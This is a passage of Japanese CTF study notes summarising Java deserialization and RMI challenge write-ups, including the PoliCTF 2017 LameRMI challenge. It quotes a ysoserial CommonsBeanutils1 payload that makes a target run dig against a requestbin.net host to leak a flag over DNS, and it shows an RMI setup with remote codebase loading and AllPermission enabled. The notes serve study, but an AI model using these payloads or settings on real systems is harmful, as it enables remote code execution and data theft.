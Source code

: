 ```java
         i.printStackTrace();
      }
   }
}
```
なので、ysoserialを今度は使うらしい。`CommonsBeanutils1`を使えばいけたらしいけどこれは多分いろいろ試して頑張ってるのか？  
ファイアーウォールが外部へのリクエストをDNS以外はじくっぽいので、digコマンドで攻撃者サーバーにDNSリクエストを送信させるらしい。  
```txt
java -jar ysoserial.jar CommonsBeanutils1 'dig rce.ef8d2b0eafff5eb0e48f.d.requestbin.net' | base64 -w0
```
そのあとはなんやかんやしてdigコマンドで発生させるDNSリクエストにFlagの値を付与して送信させてるけどよくわからん…  
- **payload**  
```txt
java -jar ysoserial.jar CommonsBeanutils1 'dig rce.ef8d2b0eafff5eb0e48f.d.requestbin.net' | base64 -w0
```

## RMI Registry / java.rmi.server.codebase / config vuln (PoliCTF 2017 LameRMI)
https://github.com/PoliCTF/sources2017/blob/master/pwn-lamermi/writeup.md  
- **entrypoint**  
1999ポートにJavaのRMI Registryが、8000ポートにWebサーバーが動いているらしい。  
問題文に「Javaの設定が脆弱な状態になっている」的なヒントがあるらしい。  
JavaのRMI Registryは設定が`userCodebaseOnly=false`となっており、クラスがローカルで解決できない場合(存在しないクラスをよびだそうとした場合)`java.rmi.server.codebase=`に設定されているWebサーバーにクラスを探しに行くらしい。  
Javaを実行するRMIとRMI Registryは別。  
そして、その探しにいくWebサーバーはクライアントがレジストリに対して指定できるらしい！！！(レジストリに対して「`java.rmi.server.codebase=http://malicious`にアクセスしてクラスを取得してね」ってクライアントが設定できるらしい？？)  
https://docs.oracle.com/javase/jp/1.5.0/guide/rmi/codebase.html  
```txt
java \
 -Djava.security.policy=security.policy \
 -Djava.rmi.server.useCodebaseOnly=false \
 -Djava.rmi.server.hostname=lamermi.chall.polictf.it \
 -jar lamermi-1.0-SNAPSHOT.jar
```
また、以下のように全エントリに対して実行権限を付与しているのも良くないらしい？  
上記で挿入したヤバいクラスのヤバいメソッドを制限なしで実行できるからかな。  
```txt
grant {
    permission java.security.AllPermission;
};
```
また、http serverには以下の`AverageService`インタフェースだけが書かれたソースファイルが置かれているらしい。  
```java
public interface AverageService extends Remote {
    Double average(List<Integer> integerList) throws RemoteException;
}
```
実際、以下のようにしてレジストリにアクセスすることで、`AverageService`というサービスが使えることがわかる。  
```java
Registry registry = LocateRegistry.getRegistry("lamermi.chall.polictf.it", 1099);
System.out.println("registry found");

String[] ports = registry.list();
for (String port: ports) {
    System.out.println(port);
}
// prints "AverageService"
```
以下のようにして使うこともできるらしい。  
```java
AverageService averageService = (AverageService) registry.lookup("AverageService");
ArrayList<Integer> myIntList = new ArrayList<Integer>();
```